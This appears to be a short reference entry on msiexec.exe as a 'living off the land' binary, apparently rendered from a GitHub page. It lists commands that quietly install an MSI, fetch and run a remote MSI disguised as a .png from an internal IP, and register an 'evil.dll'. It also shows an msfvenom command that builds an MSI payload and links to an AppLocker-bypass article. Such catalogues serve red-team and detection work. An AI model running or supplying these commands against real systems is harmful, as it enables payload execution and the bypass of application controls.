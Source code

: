 ## Msiexec.exe

* Functions: Execute

```
msiexec /quiet /i cmd.msi    

msiexec /q /i http://192.168.100.3/tmp/cmd.png   

msiexec /y "C:\folder\evil.dll"   

msiexec /z "C:\folder\evil.dll"   
```

Acknowledgements:
* ? - @netbiosX
* PhilipTsukerman - @PhilipTsukerman

Code sample:
* 

Resources:
* https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/
* https://twitter.com/PhilipTsukerman/status/992021361106268161

Full path:
```
c:\windows\system32\msiexec.exe
c:\windows\sysWOW64\msiexec.exe
```

Notes:
Generate MSI file:
```
msfvenom -f msi -p windows/exec CMD=powershell.exe > powershell.msi    
```




